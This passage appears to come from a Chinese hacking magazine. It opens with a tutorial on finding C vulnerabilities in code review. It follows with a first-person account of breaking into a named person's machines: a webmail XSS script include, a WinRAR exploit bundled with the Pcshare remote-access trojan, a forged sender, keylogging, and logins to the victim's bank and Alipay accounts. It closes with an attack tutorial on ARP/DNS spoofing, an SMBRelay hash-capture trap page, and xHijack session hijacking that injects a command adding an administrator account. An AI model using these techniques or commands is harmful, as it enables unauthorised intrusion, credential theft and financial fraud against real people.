我们可以看到在 while 循环中，代码为了防止 index 大于 buflen 导致缓冲溢出，专门做了一次比较，还对 buf 结尾的 NULL 字节做了一次比较。初看起来这完全正确，防止了对字符数组的结尾字符的覆盖，但你是否想到这里存在一个逻辑错误：这里的代码是建立在 argv[1] 这个从外部获取字符数组的值是一个正常字符数组的情况的，而正常字符数组就是说针对 strlen 来说的。因为我们知道 strlen 这个函数就是在遍历字符数组，直到找到 NULL 字节为止的，而我们如果给它传递一个全部是由 NULL 字符填充的字符串数组，那么 strlen 函数就会出现获取长度错误，从而导致这段代码出现一个逻辑错误。这个时候 index 会等于 0，而 sLength 会等于“-1”，也就是十六进制的 FFFFFFFF，如果后面的代码是一个 malloc 函数，那么就会一下子分配出一个超大的内存空间，引发出一些潜在的漏洞，至少会是一个拒绝服务漏洞。这样的漏洞，如果使用先找寻特征点，再回溯的办法是很难发现的，而利用“以面到点”的方法却很容易地将其发掘出来。

“以面到点”的方法是一个十分完善的方法，它将完整的代码构成组织出来后，再进行分析，有效避免了我们发掘的疏漏，尤其是对那些隐藏的漏洞。但我们也要明确一点，这种方法不适合初级学习的人，因为这要求对代码的阅读能力有很强的功底，而这种功底完全来自于对编写代码工作的熟练程度以及软件工程思想。所以，我们最好在熟练编写一些代码后，再回头练习这种方法，会达到事半功倍的效果。

## 手工检查的具体技巧

有了方法，我们就可以进行手工审计代码的工作了。由于是在代码中发掘漏洞，我们有了宏观的方法，还需要对这些漏洞的具体发掘有一个较具体的了解，因为每一种漏洞的表现形式并不相同。为了能让读者将手工检查方法的细节理解得更加深入，我们在这……里对代码检查中，一般需要对检查出的漏洞类型进行一个分类式的讲解。虽然并不能将全部的漏洞类型一次性罗列出，但是我们这里所分类的，全部都是代码检查中必须要注意的典型漏洞发掘点。掌握这些类型漏洞发掘的技巧，是学习手工代码审计中不可缺少的基础环节。

### 1）缓冲区溢出漏洞的表现

对于应用软件来说，缓冲区溢出漏洞是头号安全隐患，所以我们在检查代码的时候，这种漏洞是首先要寻找的。

在寻找这种漏洞的时候，利用“以点到面”的方法是最好不过的了。我们通过前面关于溢出漏洞的一些了解，会发现很多情况下的溢出漏洞都是发生于程序不安全地调用字符串拷贝函数。这些函数有它们标准的名称，例如 strcpy、strcat、memcpy、lstrcpy 等这些用于 ASCII 型的，还有 Unicode 双字节型的，如 wcscpy、wcsncat 等。无论这些函数用于单字节还是双字节，只要在进行字符串拷贝时没有进行安全的边界检查，都会产生溢出漏洞。我们可以在利用代码查看工具查看代码的情况下，使用工具的查找功能，查找已知的这些敏感函数，定位到这些特征点，然后再利用回溯点代码中的变量，来确定漏洞的存在。

但在某些情况下，我们要注意到有些较为优秀的软件中，其代码在实现上述这些字符串拷贝函数的时候，会编写自己的实现代码，不去调用这些来自原生库中的不安全函数。这个时候，利用“以点到面”的方法就不适合了。我们必须找到此类自实现函数的主体，虽然这可能要通篇阅读整个代码工程，因为这些函数主体没有任何规律可言，但所幸的是，这样的自定义函数名称常常会体现出它要完成的目的。假设一个自定义字符串拷贝函数，它的函数名往往会是 Mystrcpy，这样我们还是可以利用“以点到面”的方法来查找特征点的。

### 2）格式化串的非法使用

格式化是一种比溢出漏洞更新一点的漏洞，主要利用了格式化字符的不恰当使用，导致可以在某些情况下覆盖一些程序关键内存指针，从而得到执行任意代码的权限。

这种漏洞在代码中的表现非常明显，可以利用“以点到面”的方法来发掘出这些漏洞。在格式化漏洞中最为标志性的地方有两个：一个是在代码中使用了格式化标记“%”，一个就是调用了格式化函数。在 C 性质的语言中，我们常常可以看到格式化标记的出现，这些带有“%”符号的格式化标记代表着不同的意思，如 %x 代表十六进制显示。我们可以先找到这些格式化标记的地方作为特征点，然后再对代码中的各个参数进行查找确定。一旦传递给格式化标记的参数可以通过外部参数来获取，也就是可以由任意使用者来赋值，这样的地方就完全存在一个格式化漏洞了。对于调用格式化函数的地方也是如此，我们可以看看这段代码：

```c
{
    char logbuf[1024];
    snprintf(logbuf, sizeof(logbuf), fmt, args);
    ...
    syslog(LOG_NOTICE, logbuf);
}
```

这段代码的意思是将 args 指向的参数串，按照 fmt 规定的格式格式化后赋值给 logbuf，然后再将 logbuf 写入系统日志。这里我们并没有看到格式化标记，但我们是怎么确定这里使用了格式化方法呢？问题就出在 snprintf 函数。这个函数是一个库函数，目的就是执行一个格式化操作，其函数原型是：`int __cdecl snprintf(char *, size_t, const char *, ...);`。

这让我们想到了函数 printf，printf 函数就是一个用来将数据按照一定格式显示到标准输出的格式化操作，这些函数都会将数据进行格式化操作。虽然有时没有明显地看到格式化标记出现，但有这些函数的出现，我们一样能确定出一个格式化操作。此时再针对每一个参数进行回溯，查找出参数的原型，进而判断这段代码是否会是一个格式化漏洞。上面的那段代码就是一个格式化漏洞的表现，因为传递给函数 snprintf 的参数 args 是一个来自外部的变量，这样一来，任意用户都可以随意控制程序的格式化操作，从而引发一个内存破坏或者执行任意代码的操作。

### 3）遗憾的 Termination

Termination 的意思是“结束”，为什么要提出这样一个漏洞类型，我们这里结合代码来分析一下此类漏洞的危害。

```c
char fs[20], fs1[20];
memset(fs, '2', 20);
memset(fs1, '1', 20);
strncpy(fs, fs1, sizeof(fs));
if (strlen(fs) <= 20)
{
    printf("if go here ,it is right!");
}
printf("if go here ,it is wrong!");
```

这段代码用于将 fs1 中的内容赋值给 fs。我们单看一下“if(strlen(fs)<=20)”这一句代码，因为我们前面定义 fs 就是 20 个字节，那么毫无疑问，fs 的长度一定小于或者等于 20 字节，符合这个 if 语句，应该执行后面括号中的 `printf("if go here ,it is right!");`。但如果把这段代码进行编译执行，会发现情况并不是这样，而是执行了 `printf("if go here ,it is wrong!");`。出现错误的原因就是由于 strncpy 函数造成的，我们看看 MSDN 上的一段注释。

> The strncpy function copies the initial count characters of strSource to strDest and returns strDest. If count is less than or equal to the length of strSource, a null character is not appended automatically to the copied string.

这里的 count 就是指我们代码中的 sizeof(fs)，这个值在这里等于 20，也就是等于我们的来源字符串长度。此时 NULL 字节不会自动添加到拷贝后的目的字符串尾部，这样在后面的 strlen 函数获取 fs 长度时就会出现找寻结尾字符出错的情况，使得 if 语句没有实现。如果 if 语句中的代码是整个程序的主体代码，那么这个程序就不能成功运行了。

到此时，你一定明白了什么是 Termination 型漏洞。虽然没有在上面的例子中看到这个漏洞的问题有多严重，它只是令程序无法正常运行而已，但有的时候，错误的 Termination 会导致程序中关键的字符串无法正常结束，然后又被覆盖，这样就会导致后面代码在使用这个被覆盖的字符串时，出现内存指引错误，来获得执行任意代码的权限。

除去上面的这种 NULL 字符导致的 Termination，还有一种是完全由于程序员的逻辑错误导致的，我们来看下面的代码。

```c
void main(int argc, char *argv[])
{
    int a = 1;
    if (a == 2)
    {
        printf("to be here is right");
    }
    return;
}
```

代码编写者定义了一个 a 作为程序是否可以运行的标志，然后赋值为 1，即代表允许运行，可是在接着的 if 判断中却判断 a 是否等于 2，如果 a 等于 2 了才允许程序继续运行，很明显的逻辑错误。这种类型的 Termination，我们称之为“条件终止”。

对于条件终止引发的后果，也不仅仅会使得程序无法正常运行，代码上下文的环境往往可以使得漏洞分析者找出利用的方法，扩大条件终止的危害性。

从上面的两个分析中，我们可以看出，对于 Termination 型的漏洞，我们不能再凭借“以点到面”的方法来找寻，我们必须要认真阅读代码，利用程序流程图来帮助我们找到漏洞。

### 4）整数型溢出

整数是编程中涉及最多的一种数据类型，整数的大小是由整数类型和字符大小（size）决定的。对于有符号的 16 位整数来说，最大值就是 0x7fff，也就是十进制的 32767，最小值是 -0x8000，也就是十进制的 -32768。而无符号的 16 位整数最大值就是 0xffff，十进制的 65535，最小值则是 0。对于 32 位的有符号整数，最大值是 0x7fffffff，十进制的 2147483647，最小值则是 -0x80000000，十进制的 -2147483648。32 位的无符号整数最大值是 0xffffffff，即十进制的 4294967295，最小值是 0。当赋值给一个整数的值为其最大值时，如果此时再加上 1，则会发生整数型溢出。对于有符号的整数来说，这会造成一个逻辑上的错误，绕过很多看似安全的限制。我们看看下面的代码：

```c
int num;
num = argv[1];
if (num + 1 < 50000)
{
    strcpy(des, src);
}
```

其中 num 是一个有符号整数，它的值来自外部参数 argv[1]。接着代码判断“num+1”的值是否小于 50000，如果是则执行一个字符串拷贝函数。这里我们注意 num 的值，如果我们从外部赋值给 num，使它等于 0x7fffffff，这样当程序执行到 if 语句时，“num+1”的值反而会变成一个负数，因为此时的数值已经超过了 32 位有符号整数的最大值。那么负数一定是小于 50000 的，从而执行了字符串拷贝函数，而这个拷贝会造成一个潜在的溢出漏洞。

整数溢出不但会造成对安全检查的限制被绕过，还可能直接造成溢出漏洞的发生。我们再看代码：

```c
(1) char *buf;
(2) int sizeBuf = sizeof(argv[1]) + 260;
(3) buf = new char[sizeBuf];
(4) memcpy(buf, argv[1], sizeof(argv[1]));
```

我们逐句分析这段代码。第一行是定义一个字符串指针 buf，也就是我们放置外部字符串的目的地址。第二行是将外部字符串的大小加上 260 赋值给 sizeBuf，准备为 buf 开辟空间；第三行是利用 new 来为 buf 开辟出比外部字符串大 260 字节的空间；第四行是将外部字符串拷贝进入 buf。由于目的空间的大小来自于 sizeBuf，这个值比传递进来的字符串长度要大 260，理论上不会出现问题，但请注意 sizeBuf 是一个有符号整数，如果 sizeof(argv[1]) 的值接近有符号整数上限，则 sizeBuf 可能变成负数，进而导致后面的 memcpy 函数发生严重的内存覆盖错误，在一定条件下就可以利用此漏洞执行任意代码。

由此看见，整型溢出是一种危害很大的漏洞，在进行代码审计时，这种漏洞的发掘要凭借对代码的仔细阅读理解。

### 5）超越下界的漏洞

这种漏洞说起来很简单，如果你编过一些涉及数组的代码，一定知道数组的下标不是像我们数数先数 1，再数 2。数组的第一个下标是 0，然后是 1。这样我们在编写程序的时候，如果不注意这一点，单凭直觉去操作数组，就会造成一个字节或者多个字节被写到了分配给数组的内存之外。这其实很类似 Termination 漏洞，超越下界漏洞最终的表现就是让数组的大小发生了变化。利用这种变化，我们往往可以获得执行代码的机会。

```c
char npath[MAXPATHLEN];
int i;
for (i = 0; *name != '\0' && i < sizeof(npath) - 1;
     i++, name++)
{
    npath[i] = *name;
    if (*name == '"') npath[++i] = '"';
}
npath[i] = '\0';
```

这是出自 FreeBSD 的 FTP 守护进程中的一段源代码。我们注意看 if 这一行，代码本身是为了防止出现错误的 NULL 终止，在代码最后使用 `npath[i] = '\0';` 来预防此类问题。但是这一行代码告诉我们，如果我们传递的 *name 值为双引号后，代码就会自动“++i”，然后赋值给 npath。请看仔细，如果这个时候的 `i = sizeof(npath)-2`，进入这行代码后 i 被加 1 成为 `sizeof(npath)-1`，然后被循环主体再次加 1，此时 `i = sizeof(npath)`，不符合循环条件而跳出循环，到下面一句 `npath[i]='\0';`，这个时候这句代码的表达式等效于 `npath[sizeof(npath)]='\0'`，显然已经越界，导致了错误的 NULL 终止。

下标越界的错误是比较简单的一种 NULL-Termination，我们可以通过对代码中所有涉及循环的语句进行查找，然后再分析，很容易将此类漏洞发掘出来。

适合读者：入侵爱好者

前置知识：无

# 实打实撞进人

## 电信、网通、移动


文／图 肥黑他兄弟

很久没玩黑了，手法渐渐生疏。前些天学院主页被挂了，服务器也被拿下了，检查 IIS 日志和系统日志时候，发现是 XXX.XXX.XXX.XXX（一台服务器）这个 IP 利用 eweditor 漏洞，然后从 Serv-U 漏洞提权进来的，建立了一个影子账号“administrator$”，还放了流行的 shift 后门和“NTPass”（一个用来截取 Windows 系统登录口令的工具），整了我很久，最后用记事本打开 system32 目录下的 eulagold.txt 发现了服务器上管理员用户的账号和密码，仔细看看 eulagold.txt 里还有他自己建立的影子账号的密码（考虑到各位社会工程学太厉害，下面的图片隐藏了一些信息，如图1所示）。

如果运气好的话，用这个账号密码说不定可以登录这台 XXX.XXX.XXX.XXX 服务器呢。第一次用“administrator$”账号测试，结果失败了；第二次用“administrator”这个账号登录，结果成功了，说明他就是这台服务器的主人。随意在上面翻了下，没发现什么感兴趣的东西，观察下密码有点像电话号码，我们来百度查查，结果什么都没找到。等等，我们换个方式，前面那个 0XXXX 是区号的话，我们在区号后面加个“-”会怎么样，结果一下就出来了，如图2所示。


图1

从上面搜索到的网站，我们得到一个很有用处的信息，就是他的邮箱是 admin@xxxxx.com.cn。后来发现这个邮箱居然某地区网通的员工邮箱，他们使用的邮箱是 eyou05 版的，这个邮件服务系统以前我曾经发现过一个 XSS 的脚本跨站漏洞，如图3所示。


图2


图3

我们在插入 IMG 标签的地方测试下对“<>”的判断，02 版的 eyou 在这里没过滤，可惜的是 05 版的被修复了，记得剑心以前写过一篇 163XSS 的文章，翻出以前的黑防来看，终于触发了 XSS 漏洞，如图4所示。至于怎么利用，大家可以参看剑心的文章，我的做法是引入一个 JS“ocument.write(”

## 系统提权与渗透 / System Privilege Escalation and Infiltration


图4

```html
<script src=JS.js></script>
```

“JS 内容为你的网页木马，于是我用这个 E-MAIL 自己给自己发了一封邮件，如图5所示。”


图5

很不幸的是，他没有上线，不知道是 JS 的问题还是他的补丁弄得很全。无奈之下回到他的邮箱中又乱转一气，看看有没有什么可以利用的东西。突然发现在他的邮件硬盘里有一个 WinRAR3.54 的安装包，难道管理员用的是 WinRAR3.54 版本的？据说这个版本的 WinRAR 有溢出漏洞，赶紧翻出 VC 把以前收藏的 WinRAR3.5x 的 EXP 编译了，捆绑一个免杀的 Pcshare 再次发给他，不料他邮箱的密码修改了。毕竟是玩黑的，安全意识还是有点的，只好用自己的邮箱给他发邮件了。

怎么发才能让他相信呢？伪造一个吧，我们就用本地机的 Outlook，伪造发件人为他们公司内部的，随便写封邮件发送给他。这里只需要注意这两个地方就可以了，如图6、图7所示，这两个地方要填上你要伪造的邮件名称。


图6


图7

过几天开 Pcshare 看的时候，突然发现肉鸡里面多了一台电信的新鸡（为什么网通会用电信的呢？）。由于 Pcshare 有键盘记录，记录下了他的键盘操作，发现这个用户是个权限很大的管理员，负责这个地区的通信部门。用键盘记录下的密码和一些网站我们逐一登录上去，晕倒了，第一个登录的居然是该地区电信铃声管理后台，“可惜”我的座机不是这个地区的，如图8所示；第二个网站是这个地区的移动铃声后台，“可惜”我的手机也不在这个地区（汗），如图9所示。


图8


图9

最后从他机器下载了一个考试录入出来，吓了我一跳，原来是自考录入工具，很可惜的是我无法登录（要内网才能登录，且密码输好保存在本地，键盘记录不下来）。用 Pcshare 开了他的代理，然后反弹进去，从监测中发现他的密码有 11 位（11 个*号），难道是电话号码（加区号后正好 11 位），结果测试不对，一直猜了很久都没登录进去。后来查看键盘记录的时候，发现他登录一个论坛的用户名是 XX（他的真实姓名），密码是 74123，我正想着是不是把电话号码的数字变成对应的特殊符号时，突然发现 74123 在小键盘组合出来的图形正好是英文“L”，也就是他的姓名拼音简写的开头，那么 XX（他的真实姓名）的话就是“LX”。我们来构造下“LX”=“74123753951”，可惜错了，难道是他写“X”的顺序不同？再来看看“74123951753”，估计是老天眷顾菜鸟，我们登录进去了！如图10所示。


图11


图10

进去看了下，权限很大，可以录入也可以修改，我用同样的密码登录他的服务器、支付宝、网络银行均成功了，如图11所示。似乎前面测试登录多次后管理员开始有所察觉，他开始开启杀毒软件查杀、修改密码，于是我赶紧把 Pcshare 远程卸载了，玩大了可不好，毕竟对方不是个简单人物嘛。

从被入侵到反入侵，中间的过程没有什么技术性可言。从得到他的密码和邮件，到利用邮件服务器漏洞和 WinRAR 漏洞伪造邮件诱骗成功，直到最后的猜解密码，无疑最好的渗透方法是思考运用多种方法进行攻击。如一句话所说，只要付出 1% 的努力，就可以让 99% 的入侵者束手无策，但是满世界却总是有着无数的机器，愿意 Free 地让入侵者们使用。网络安全最薄弱的环节并不是系统漏洞，而是人的漏洞！

适合读者：入侵爱好者

前置知识：无

## 校园网渗透技术解析


文／图 roger

内网渗透的方法多种多样，个人觉得最好用的就是利用系统或者程序漏洞进行溢出攻击。不过很多系统漏洞还没等找到 Exploit，微软就推出补丁了，导致成功率大大降低。而且单以我们学校来讲，宿舍里同学的电脑几乎都装有防火墙之类的软件，入侵起来怎么也不像前几年那么简单了。下面就给大家介绍一些所谓内网欺骗技术，更好地达到内网渗透的目的。

### ARP欺骗

ARP 是地址解析协议的一种，作用是把 IP 地址转化成物理地址。学习过 TCP/IP 协议的朋友都知道，IP 地址到物理地址的映射分为表格和非表格方式。ARP 的作用就是把网络层地址解析为数据链路层的 MAC 地址。

两台机器之间发送报文，首先会查询本地的 ARP 缓存表，找到对方的 MAC 地址才进行数据传输。如果找不到对方 IP 对应的 MAC 地址，就会广播一个 ARP 请求报文，请求对方回答物理地址。网段内的所有主机都会接收到这个 ARP 请求，但只有你要请求的主机识别自己的 IP，它会向发送请求的这台机器发回一个 ARP 响应。应答报文。报文中包含了被请求机器的MAC，请求者接收到应答后，会更新本地的ARP缓存，然后使用接收到的MAC地址发送数据。所以说本地的ARP缓存是动态的。

那么怎么才能实现ARP欺骗呢？从上面的介绍中我们知道，当计算机接收到ARP应答数据包时，会对本地的ARP缓存进行更新，把接收到的数据包中的IP地址和MAC地址储存在ARP缓存中。比如在一个局域网中，机器A向B发送一个伪造的ARP应答，这个应答伪造了机器C的IP和另一个伪造的MAC地址，当B接收到这个伪造的ARP应答后就会把本地的ARP缓存更新为这个伪造的数据。在B机器的ARP缓存中，机器C的IP没有变化，但是它的MAC地址已经不是C原来的了。因为局域网中的数据传输不是根据IP地址进行，而是按照MAC地址进行的，这样就实现了一个简单的ARP欺骗。

由于我们伪造的MAC地址是个不存在的地址，这样就造成了机器B的网络不通，不能和机器C进行连接。例如我们在B机器上执行“ping C”命令就会失败。

关于局域网中防范ARP欺骗，最有效的方法就是把网关的IP与MAC地址映射起来。方法是先ping一下网关，执行命令“arp -a”，即可得到网关的MAC地址。最后执行命令“arp -s 网关IP 网关MAC”，就可把网关地址与MAC映射起来。

接下来再给大家介绍一款工具ARPkiller，它不仅可以实现ARP欺骗，还可以检测出局域网中处于“混杂模式”的计算机，也就是正在进行ARP欺骗的计算机，如图1所示。本来我还想介绍一下另一款交换环境下的ARP欺骗工具ARPSniffer的，它内置了路由功能，但我们既然有了ARPkiller这款图形界面的工具，就没必要再讲ARPSniffer了，原理都是一样的。

> 图1

## DNS欺骗

DNS就是域名解析服务器的意思。我们平时访问某个网站，提交的网址，比如www.***.com，系统会把这个网址转交给DNS服务器，然后由DNS服务器把网址（域名）转换成IP地址返回给本地计算机，这样我们就访问到了网站。Windows 2000以上系统的服务列表里都有一个叫DNS Client的服务，这个服务就是DNS服务，用来解析和缓冲域名系统（DNS）名称。DNS服务对应的端口为TCP 53，在网上用扫描器可以扫描到很多开放53端口的机器，多数就是DNS服务器。

内网中进行DNS欺骗的基础是ARP欺骗，实现DNS欺骗必须同时欺骗网关和客户端主机。首先以客户端名义向网关发送ARP响应数据包，发送之前把源MAC地址改成我们自己机器的MAC地址；同时还要以网关的名义向客户端发送ARP响应数据包，和上面一样把MAC地址改成自己机器的MAC地址。由于局域网是根据MAC地址来进行数据传输的，这样我们就实现了简单的DNS欺骗。网关把我们机器的MAC当作了客户端MAC，同样，客户端也把我们的MAC地址当作了网关的MAC。这样，网关和客户端之间的数据传输必须先经过我们的计算机，我们就可以构造DNS响应数据包发送给客户端。比如客户端提交了www.***.com这个域名，我们监视到了客户端向网关发送的DNS查询，就可以随意构造DNS数据包发送给客户端，例如把www.***.com对应的IP改成我们做了网页木马的IP。

在继续讲应用之前，我们必须了解一下DNS报文的格式。在TCP/IP协议中，DNS报文格式如表1所示。各个部分的具体含义就不多讲了，有兴趣的朋友可以到Google上搜索《DNS协议》和《D攻击》这篇文章，里面有更详细的介绍。

| 标识 | 参数 |
|---|---|
| 问题数 | 回答数 |
| 管理机构数 | 附加信息数 |
| 问题 |  |
| 回答 |  |

> 表1

关于DNS欺骗，有一款DNShack的命令行工具，可以很简单地实现DNS欺骗攻击，如图2所示。

```text
dnshack [自己机器的IP] [欺骗到哪个IP]
例如：dnshack 192...
```

> 图2

“192.168.0.1 127.0.0.1”，这个例子就是说，自己在局域网中是192.168.0.1，局域网中的机器访问其他的站点都会转到这个IP上。我们在本机上架设一个小型的HTTP服务器，做一个包含网页木马的网页，等着对方上钩就OK了。

## 会话劫持

会话劫持（Session Hijacking）就是在一次正常的通信过程中，劫持者作为第三方参与其中，在传输的数据中加入了劫持者精心构造的数据，以达到自己的目的；或者把通信模式加以改变。实际上会话劫持属于一种嗅探与欺骗技术互相结合的攻击手段。

会话劫持分为“主动劫持”和“被动劫持”两种情况。主动劫持即攻击者踢掉原来会话中的一个用户，取代该用户接管会话；被动劫持即监视所有会话的流量数据，分析其中的敏感数据。

### SMB会话劫持

SMB（Server Message Block）是一种网络上的设备、文件共享协议。在Windows系统中，SMB协议最常用的就是NBT，也就是说，SMB协议通过NETBIOS端口和NETBEUI协议在Windows网络中实现，所以说实现SMB会话劫持的关键是系统必须安装了NetBEUI协议且正确绑定到了TCP/IP上。关于NetBEUI协议的安装，黑防以前的杂志讲过很多次了，这里不再重复。

在Windows 9X系统中，NETBEUI是默认安装的，使用的是TCP 139端口；Windows 2000系统中，有两个端口可以实现SMB会话，当139端口不能响应时，由445端口来接受连接共享的请求。Windows XP系统中，不再默认安装NETBEUI协议，所以就不存在NETBIOS端口了，共享连接由445端口来完成。

因此，我们在Windows XP以下系统进行SMB会话劫持，成功的几率会更大。本文要讲的SMB会话劫持是在Windows 2000系统中实现的。学过MCSE的朋友应该都知道，Windows 2000系统在域中有一个叫Kerberos v5隧道的验证方式。要实现SMB会话劫持，首先要保证会话双方不在域中，或者双方在域中，但是没有用到Kerberos v5验证。

其次域中两台计算机的一方，系统必须低于NT5.0（即Windows 2000）版本，例如Windows 98/ME/NT。

只要符合了上述情况，SMB会话中的验证方式就会是NTLM。为什么验证方式要为NTLM呢？我们入侵经常用的Telnet的验证方式就是NTLM，在NTLM的验证过程中，本地密码散列会被加密成LM HASH和NTLM HASH，在传输过程中，我们就可以嗅探到对方的本地密码散列。这时还需要一个NTLM challenge，我们也可以通过嗅探得到。得到这些之后，按照格式保存为LC5可识别的格式，导入到LC5中，就有可能破解出对方的本地密码。

根据上面介绍的内容，如果想要得到对方主机的密码散列，必须要对方向我们发送验证信息。我们可以在本地架设一个HTTP服务器，做一个陷阱网页。

```html
<meta http-equiv="refresh" content="1;url=\\192.168.0.1\">
```

这段html代码的作用就是让访问到该页面的主机跳转到192.168.0.1（比如说这个地址是我们自己的内网IP），这样就造成对方主机向我们发送了一个验证过程，验证过程的数据包里包含了它的用户散列。那么我们该怎样实现抓取散列呢？这里要用到一个工具SMBRelay，如图3所示。

> 图3

其中参数“/d num”用于设置调试的等级，默认为0，其他值还有1、2；“/e”可以列举网卡的接口和参数；“/IL num”用于添加局域网IP地址时，设置接口参数为可用；“/IR num”用于添加代理IP时，设置接口参数为可用，默认值是1；“/L[+]IP”，当NETBIOS连接接收到数据包时，设置监听局域网IP，“+”的作用是首先将IP加入到NIC中，默认IP为当前主机的IP；“/R[-]IP”用于设置代理IP的起始端，“-”可以设置将IP添加到NIC中，默认使用192.1.1.1；“/s Name”用于设置原机的机器名，默认设置为CDC4EVER；“/T IP”用于连接目标IP，以及代理服务器与客户端之间的所有数据。了解了其参数，下面我们举一个具体的例子。

```text
D:\>SMBRelay /e
SMBRelay v0.992 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001: Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
[1000006] ETHERNET CSMACDNDIS 5.0 driver
[..] SOFTWARE LOOPBACK MS TCP Loopback interface
```

得到本机网卡参数1000006。

```text
D:\>smbrelay /IL 1000006 /IR 1000006 /L+ 192.168.0.11 /R- 192.168.0.11
SMBRelay v0.992 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001: Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
Using local adapter index 1000006: NDIS 5.0 driver
Local IP address added to interface 1000006
Bound to port 139 on address 192.168.0.11
```

这时等着对方连接到本机就可以抓到对方的散列了。抓到散列后，我们就可以直接与那台机器进行IPC$连接了。运行命令“net use \\192.168.0.11”就可以成功地把对方的C盘映射到本地磁盘。

除了这种利用方式以外，我们还可以用Sniffer抓取数据包。还是在对方访问到网页的时候用Sniffer抓取数据，整个Sniffer的过程很简单，主要是在分析上。分析的前提是我们必须了解NTLM的验证机制。这里告诉大家一个简便的方法，在嗅探到的数据里搜索“NTLM Challenge”一般就可以搜索到访问本机文件的机器的challenge，搜索“session setup andx request, ntlmssp_auth”，其附近就包含了LM HASH和NTLM HASH值。最后把抓到的东西按照格式“域\用户名”：“”：LMHASH值 NTLM HASH值 challenge值排列好，保存为lc格式，导入到LC5中，就可以破解对方的用户密码了。

### TCP会话劫持

两台计算机之间建立一次TCP连接，只是在会话建立初期进行身份认证。这个身份验证包括口令验证和地址验证，认证完成后，通信的安全就只有依靠TCP协议机制中的TCP头中的序列号（SYN）和确认号（ACK）来保证了。TCP的会话劫持就是在这个时候实现的，攻击者首先以正确的序列号和确认号向被攻击计算机发送数据，被攻击者接收到数据报文后，查看序列号和确认号正是被攻击者冒充的计算机发来的，然后攻击者就可以根据自己的目的执行操作。关于SYN和ACK，我们可以通过嗅探得到。

这里还需要再讲一下整个会话劫持的过程，比如局域网中有3台机：A1、A2、A3。A1、A2之间是正常的连接会话，A3作为攻击者。当攻击者A3劫持了A1、A2其中一台机器的会话时，被劫持的机器执行了A3的命令后会向另一台机器（A1/A2）返回一个数据包。比如说A1在这个时候向被劫持的A2发送数据包，将会被A2拒绝，因为A1的ACK确认号不是A2想要的。整个劫持过程如表2所示。攻击者A3如果要向A1、A2的会话中插入恶意数据，有可能会引起网段内的ACK Storm。

| 会话过程 |
|---|
| A1 —— Sep:x PSH/ACK:y (60) —— αA2 |
| A1 —— Sep:y PSH/ACK:x+60 (50) —— A2 |
| A1 —— Sep:x+60 PSH/ACK:y+50 (40) —— A2 |
| A1 —— Sep:y+50 PSH/ACK:x+100 (30) —— A2 |
| A3(A1) —— Sep:x+100 PSH/ACK:y+80 (20) —— αA2 |
| A1 —— Sep:y+80 PSH/ACK:x+120 —— A2 |

表2

接着上面的例子。A3在插入数据的报文中源IP地址为A1的IP地址，SYN和ACK用嗅探到的数据。在A2接收到这个数据报文之后，就执行了A3插入的数据。执行完毕之后，还会返回给A1结果。返回的数据报文里，SYN等于上一次A1的ACK，但是ACK却成了上一次A2发送给A1的ACK和上一次A1发送的数据报文的大小之和。A1接收到数据之后，会发现ACK不是自己想要的，就会返回给A2一个数据包，告诉A2正确的确认号。当A2接收到数据包，发现ACK也不是自己想要的，同样给A1返回一个数据包。

这样一直循环下去，就形成了所谓的ACK Storm（ACK风暴）。避免ACK Storm的方法就是结合前面讲到的ARP欺骗，把进行会话的其中一台机器“断网”就可以了。

交换环境下的会话劫持，有很多工具可以实现，这里只介绍一款工具xHijack，如图4所示。使用之前需要开启IP路由功能，找到注册表HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\，修改IPEnableRouter值为16进制1，重启系统，就开启了IP路由功能。

> 图4

因为没有真实的入侵环境，我就在局域网内测试，机器接在了同一台交换机上。在192.168.0.18上telnet到192.168.0.1。

```text
D:\>xHijack 192.168.0.1 192.168.0.18
1 - \\Device\\NPF_{...}
2 - \\Device\\NPF_{...}
3 - \\Device\\NPF_NdiswanIp
Please choose your Adapter: 1

1 <-- List all connections
r x <-- Reset the number x connection
w x <-- Watch the number x connection
h x command: <-- Hijack the number x connection to execute command

[Note]
Ctrl+Break to clear all action
Ctrl+C to exit

CurrenAction:ACTION_NONE CurrenCtrlConn:0
xHijack>l
<1> 192.168.0.1:23 <--> 192.168.0.18:2952
...
xHijack>h 1 "&net user roger /add & net localgroup administrators roger /add" ...
```

```text
（不管前面客户输入了什么，我们的命令都能够运行了。）
CurrenAction:ACTION_HIJACK CurrenCtrlConn:1
XHijack>Send RST packet ok!
Send RST packet ok!（返回结果劫持成功。）
D:\>telnet 192.168.0.1（用刚才加的用户roger登录，成功）
```

### FTP会话劫持

个人觉得FTP会话劫持利用价值不是很大，而且网上有的利用工具只能对支持匿名登录的FTP服务器进行会话劫持，所以这里只简单讲一下。

FTP服务器的连接过程为：客户端向FTP服务器发送请求，FTP服务器响应消息，然后建立连接，一般使用21端口。FTP与其他协议不同之处在于，它使用一条控制连接和多个数据连接。控制连接的生存时间就是整个FTP会话；数据连接可以由客户端发起，也可以由服务端发起，连接用于传输文件或者数据，生存时间是根据数据连接的变化而变化的。

客户端模式（Port）：客户端首先向服务器发送命令，告诉服务端在本地已经打开一个端口等待连接，服务端收到命令后，就会主动向这个端口进行数据连接，然后传输数据。

服务端模式（Pasv）：这种方式是服务端在本地随机打开端口，发送命令给客户端让客户端连接它打开的端口，然后进行数据传输。这种模式刚好和客户端模式相反，也是现在一些FTP下载服务器最常用的模式，还有内网中几乎所有的FTP数据传输都会采用Pasv模式。

FTP会话劫持的产生与利用：在Pasv模式下，FTP服务器打开随机端口后没有对连接的客户端进行检查或者限制，导致任何IP都能连接到FTP服务器接收数据。不过由于FTP服务器打开的是随机端口，端口的范围不好确定，这样也就增加了劫持的难度。

目前网上有一款名为FTPhijak的FTP会话劫持工具，遗憾的是这款工具只支持匿名FTP服务器，所以说利用价值不高。FTPhijak可以实现对任意用户文件传输的劫持，劫持到的数据会保存在当前目录下，后缀名是dat。

本文就写到这里了，希望能给大家在平时的入侵中带来更多的启发。说了这么多原理性的东西，就是想告诉大家不要只会用工具，其实搞清原理很重要！

- 适合读者：入侵爱好者
- 前置知识：无

## ASP和PHP双马连用

### 直接提权

文／图 幻泪[o.f.s]

很多人认为，现在的网站上传漏洞大部分都补上了，或者转入了地下（只有一定权限才能利用的），而注入工具的泛滥又使得注入漏洞变得越来越少了，而且自从出现了防注入工具后，入侵更是难上加难了。
